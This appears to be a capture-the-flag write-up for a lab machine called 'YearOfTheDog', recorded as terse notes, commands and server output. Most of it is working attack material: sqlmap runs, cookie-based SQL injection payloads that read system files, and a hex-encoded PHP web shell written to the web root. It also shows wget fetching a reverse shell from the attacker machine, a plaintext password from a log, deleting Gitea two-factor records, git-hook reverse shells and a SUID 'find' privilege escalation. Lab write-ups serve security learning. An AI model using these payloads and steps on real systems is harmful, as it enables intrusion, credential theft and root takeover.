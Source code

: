 # YearOfTheDog

```
Ports:
22
80
```

Nothing interesting found searching directoris, higest ports.
try use sqlmap 

: sqlmap -u http://10.10.11.217/ --dump-all --level 5 --risk 3 --batch
	[02:59:05] [INFO] testing connection to the target URL
	you have not declared cookie(s), while server wants to set it sown('id=5f9d79710af...8d71d695f5').

edit cookie id='
	#response

	HTTP/1.1200OK
	Date:Fri,09Dec202208:00:20GMT
	Server:Apache/2.4.29(Ubuntu)
	Vary:Accept-Encoding
	Content-Length:156
	Connection:close
	Content-Type:text/html;charset=UTF-8

	Error:YouhaveanerrorinyourSQLsyntax;checkthemanualthatcorrespondstoyourMySQLserverversionfortherightsyntaxtousenear'''''atline1

### Payloads

Cookie:id='unionselect1,database()---

Cookie:id='UNIONSELECT1,group_concat(table_name)FROMinformation_schema.tablesWHEREtable_schema=database()---
	Youarenumberqueueinthequeue

Cookie:id='unionselect1,group_concat(column_name)frominformation_schema.columnswheretable_schema=database()---
Cookie:id='unionselect1,group_concat(userID)fromqueue---

nothing really interesting

Try sqlinjection read files

Cookie:id='unionselect1,LOAD_FILE("/var/log/apache2/access.log")---

Cookie:id='unionselect1,LOAD_FILE("/etc/passwd")---
```
SUCESS

dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash
```

LOAD index.php

require_once"config.php";

if(!isset($_COOKIE["id"])){
$cookie=bin2hex(random_bytes(16));
$queueNum=rand(1,100);
setcookie("id",$cookie,NULL,"/");

$sql="INSERTINTOqueueVALUES('".$cookie."',".

UPLOAD FILES in HEX
Cookie:id='unionselect1,0x48656c6c6f20776f726c640aINTOOUTFILE'/var/www/html/test.php'---
	'HelloWorld'

after try convert "php-reverse-shell" in hexa received exceeds server limit
try upload RCE


```
 echo '<?PHP system($_GET["c"];?>' | xxd
 echo '0x3C3F5048502073797374656D28245F4745545B2263225D3B3F3E0A' | xxd -r -p
	<?PHP system($_GET["c"];?>


 echo '0x3C3F5048502073797374656D28245F524551554553545B2263225D3B3F3E0A' | xxd -r -p
 	<?PHP system($_REQUEST["c"];?>

```
Cookie: id='UNION SELECT 1,0x3C3F5048502073797374656D28245F524551554553545B2263225D3B3F3E0A INTO OUTFILE '/var/www/html/funrce.php'-- -


# First Access

http://{ip}/funrce.php?c=wget http://{ip}/reverse.php
http://{ip}/reverse.php


in /home/dylan/ found file with log {work_analysis}
read log found credentials

dylan:Labr4d0rs4L1f3

: ss -ltp
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:44269         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -                   
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -

tunneling: 
: ssh -L 3000:127.0.0.1:3000 dylan@{ip}

login page with 2FA

dylan@year-of-the-dog:/gitea/gitea$ sqlite3 gitea.db 
	Command 'sqlite3' not found

sqlite3 not instaled, for login and delete "two factor auth" we can use python connect
```
 import sqlite3
 s=sqlite3.connect("gitea.db")
 s.execute("delete from two_factor")
 s.commit()
 s.close()
 exit()
```

we can connect now

find git-hooks and add command line in pre-receive and update with reverse shell

edit README.md and commit changes to gain shell

# in container

: sudo -l

(ALL) NOPASSWORD: ALL

: sudo su root

access /data this directory exist in main system

use netcat to transfer /usr/bin/find to kali machine from dylan machine

nc {ip} 4444 > find

nc {kali@mchine} 4444 < /usr/bin/find 

start python server

in container ##

wget http://{kali}/find
chmod 4755 find  		## suid permission

dylan@machine: ./find . -exec /bin/sh -p\; -quit

root#>
